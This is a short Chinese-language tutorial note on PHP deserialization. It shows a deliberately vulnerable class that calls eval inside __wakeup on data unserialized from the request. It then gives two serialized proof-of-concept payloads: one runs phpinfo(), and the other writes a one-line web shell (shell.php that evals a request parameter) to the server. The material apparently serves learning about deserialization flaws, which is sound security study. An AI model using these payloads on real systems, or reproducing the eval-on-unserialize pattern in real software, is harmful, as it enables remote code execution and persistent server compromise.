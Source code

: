 ### demo03

修改demo02的代码：

```php
<?php
header("content-type:text/html;charset=utf-8");
class Cat
{
  public $name = "波斯猫";
  public function __wakeup(){
    eval($this->name);
  }
}

// 接收参数
$data = $_REQUEST['data'];
// 反序列化
unserialize($data);
```

修改poc:

```php
O:3:"Cat":1:{s:4:"name";s:10:"phpinfo();";}
```

直接传递poc:

![img](./%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AC%94%E8%AE%B0.assets/1649062303894-4e495863-c14b-4201-b4ab-0c045efccf80.png)

这个地方还可以直接写码：

修改poc:

```php
O:3:"Cat":1:{s:4:"name";s:61:"file_put_contents('shell.php','<?php eval($_REQUEST[6]);?>');";}
```
